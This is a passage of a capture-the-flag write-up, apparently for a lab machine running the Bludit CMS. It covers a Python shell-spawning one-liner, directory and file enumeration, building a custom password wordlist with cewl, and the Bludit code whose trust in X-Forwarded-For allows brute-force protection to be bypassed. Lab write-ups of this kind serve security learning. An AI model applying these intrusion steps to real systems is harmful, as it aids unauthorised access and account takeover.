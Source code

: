 7. `python -c 'import pty;pty.spawn("/bin/bash")'` to spawn a shell.

8. 


# Full version


## Finding directories

Directory wordlist: `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

Result:

```s
http://10.10.10.191:80/0
http://10.10.10.191:80/admin
http://10.10.10.191:80/usb
http://10.10.10.191:80/LICENSE
http://10.10.10.191:80/about
```

`admin` page reveals the server uses Bludit.

## Hidden txt files

[Files wordlist](https://github.com/xmendez/wfuzz/blob/master/wordlist/general/medium.txt)

Result:

```s
http://10.10.10.191:80/todo.txt
```

`todo.txt` has the following info:

```s
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

`fergus` is a user. On to cracking the password.

## Custom password wordlist

`cewl -d 5 -o -e -w custom_wordlist.txt http://10.10.10.191/`


## Bludit anti brute force attack evasion 

[Source](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)

The following stuff for preventing brute force attacks:

```php
public function getUserIp()
{
  if (getenv('HTTP_X_FORWARDED_FOR')) {
    $ip = getenv('HTTP_X_FORWARDED_FOR');
  } elseif (getenv('HTTP_CLIENT_IP')) {
    $ip = getenv('HTTP_CLIENT_IP');
  } else {
    $ip = getenv('REMOTE_ADDR');
  }
  return $ip;
}
```
